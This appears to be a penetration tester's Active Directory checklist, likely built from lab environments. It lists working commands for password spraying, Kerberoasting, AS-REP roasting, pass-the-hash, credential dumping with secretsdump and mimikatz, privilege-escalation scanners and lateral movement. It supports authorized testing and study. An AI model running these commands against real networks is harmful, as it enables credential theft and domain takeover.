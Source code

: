 # Penetration Test Checklist



## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md)



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

***

## Lateral Movement

* [ ] bloodhound / sharphound
* [ ] mimikatz
* [ ] netexec spray passwords & hashes

